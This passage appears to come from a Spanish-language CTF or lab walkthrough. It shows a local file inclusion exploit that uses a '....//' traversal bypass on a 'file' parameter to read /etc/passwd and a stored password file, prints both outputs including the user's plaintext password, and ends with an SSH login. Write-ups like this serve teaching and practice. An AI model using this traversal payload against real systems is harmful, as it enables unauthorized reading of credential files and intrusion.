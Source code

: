 ```
________________________________________________

file                    [Status: 200, Size: 922, Words: 3, Lines: 21, Duration: 1ms]
:: Progress: [20469/20469] :: Job [1/1] :: 56 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```

Despues de estar un rato probando varias formas de realizar el `LFI` vemos que si hacemos ese `Bypass` podremos ver que funciono con el parametro `file`, por lo que haremos lo siguiente:

```
URL = http://<IP>/file.php?file=....//....//....//....//etc/passwd
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
sshd:x:100:65534::/run/sshd:/usr/sbin/nologin
bob:x:1000:1000::/home/bob:/bin/bash
```

Veremos que obtuvimos el `passwd` de la maquina, pero recordemos que anteriormente la contraseña de `bob` estaba en la siguiente ruta `/usr/share/bob/password.txt` asi que vamos a intentar leerlo:

```
URL = http://<IP>/file.php?file=....//....//....//....//usr/share/bob/password.txt
```

Info:

```
llv6ox3lx300
```

Podremos ver la contraseña de `bob`, por lo que nos conectaremos por `ssh`:

```shell
ssh bob@<IP>
```
